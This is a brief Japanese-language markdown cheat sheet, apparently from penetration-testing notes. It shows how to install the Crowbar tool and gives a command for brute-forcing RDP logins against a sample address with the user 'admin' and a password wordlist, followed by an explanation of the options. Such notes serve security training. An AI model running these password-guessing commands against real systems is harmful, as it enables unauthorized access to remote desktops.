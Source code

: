 ## ## リモートデスクトッププロトコル攻撃
### ### Crowbarを使用したRDP認証パスワード攻撃
- インストール
```sh
sudo apt install crowbar
```

- 一般的な使い方
```sh
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
	オプション:
		- b :プロトコル指定
		- s : ターゲットサーバ
		- u : ユーザ名
		- C : ワードリスト
		- n : スレッド数
```

---

